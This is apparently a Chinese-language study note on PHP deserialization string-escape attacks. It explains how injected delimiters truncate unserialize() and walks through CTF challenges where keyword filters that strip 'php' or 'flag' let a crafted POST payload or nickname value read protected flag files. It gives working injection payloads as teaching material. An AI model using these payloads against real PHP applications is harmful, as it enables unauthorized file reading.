 常存在有字符替换的场景

## **反序列化逃逸例子**

改变序列化长度，长度必须一样，拼接遇到;}则停，长度不可以更短。

PHP反序列化字符逃逸
```
<?php
$a = array('123', 'abc', 'defg');
var_dump(serialize($a));
?>
```

结果
```
string(49) "a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}" 
```

反序列化
```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(4) "defg" } 
```

我们可以看到在后端中，反序列化是一";}结束的，如果我们把";}带入需要反序列化的字符串中（除了结尾处），因为属性a为4个。是不是就能让反序列化提前结束后面的内容就丢弃了呢？\
  我们把第二个值abc换成abc";i:2;s:5:"qwert";}

```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:5:"qwert";}";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(5) "qwert" } 
```

成功的反序列化出我们自己定义的内容，丢弃了原先的内容（i:2;s:4:"defg"）




^
## **反序列化字符串逃逸。**
```
extract($_POST);
//接收POST参数值，覆盖变为变量和变量值。

//此时会默认$_SESSION数组中有个img的值为 base64_encode('guest_img.png')
//else中可以看出即使主动传参img_path也无法使用
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

//序列化$_SESSION数组
$serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);//替换为空
}

//反序列化后提取数组中img的值 来获取文件内容。
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
//最终为了读d0g3_f1ag.php文件内容。
}
```
分析
```
通过extract($_POST);
接收POST参数值，变为$_SESSION中变量和值，
再利用序列化后会过滤字符为空格，构造字符串
实现将后面那个默认有个img的数组键值抛弃
只保留一个自己传的img键值，其中值为ZDBnM19mMWFnLnBocA==（d0g3_f1ag.php）
最后反序列化是实现文件读取。

```
测试
```
<?php
$_SESSION['phpflag']=';s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('guest_img.png');


//序列化$_SESSION数组
echo $serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

//反序列化
echo '<br>';
print_r(unserialize($serialize_info));

Array
(
    [";s:50:] => img
    [img] => ZDBnM19mMWFnLnBocA==
)
```
所以POST传参
```
_SESSION[phpflag]=;s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

列题：
<https://www.cnblogs.com/g0udan/p/12216207.html>

^
## **序列化后某字符被替换成短字符，再反序列化导致可以被逃逸**
```
$profile['nickname'] = 'where";s:5:"photo";s:5:"/flag";}';
假设序列化后
string(32) "where";s:5:"photo";s:5:"/flag";}"
匹配恶意where字符，替换为hack，少一个字符。
则只要多加where，全部替换，s:总数不变，就可以实现包含字符尾部的s:5:"photo";s:5:"/flag";}。
```
注意：数组中有嵌套数组，序列化后里面的数组也有{}符号
题目:<https://www.cnblogs.com/xhds/p/12393686.html>